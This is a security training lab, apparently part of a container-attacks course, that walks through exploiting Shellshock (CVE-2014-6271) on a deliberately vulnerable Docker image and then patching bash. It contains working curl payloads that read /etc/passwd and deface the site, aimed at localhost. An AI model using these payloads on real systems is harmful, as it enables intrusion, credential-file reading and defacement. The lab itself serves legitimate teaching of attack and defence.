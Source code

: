 ## Vulnerable/Outdated Libraries

##### Step 1:
* Open Terminal

	![](img/Open-Terminal.png)

##### Step 2:
*  **cd** into  `Labs/3.0.0-Container-Attacks/3.7.0`

    ```commandline
    cd Labs/3.0.0-Container-Attacks/3.7.0
    ```


Shell-Shock (Bash) 
-------------------

Step 1: Run the image vulnerable to shell-shock `docker run --rm -it -p 8080:80 vulnerables/cve-2014-6271`

    Screenshot here
    
Step 2: To exploit the vulnerability and access the `/etc/passwd` file on the vulnerable container, run `curl -H "user-agent: () { :; }; echo; echo; /bin/bash -c 'cat /etc/passwd;'" http://localhost:8080/cgi-bin/stats`

    Screenshot here
    
Step 3: To deface the website, run `curl -H "user-agent: () { :; }; echo; echo; /bin/bash -c 'echo \"<html><body><h1> DEFACED! ;) </h1></body></html>\" > /var/www/index.html'" http://localhost:8080/cgi-bin/vulnerable`

    Screenshot here
    
Step 4: Access http://localhost:8080 on browser to confirm.

    Screenshot here
    
Step 5: To fix the vulnerability, update bash by running `docker exec -ti <container_id> /bin/bash -c "apt-get update && apt-get install --only-upgrade bash"`

    Screenshot here
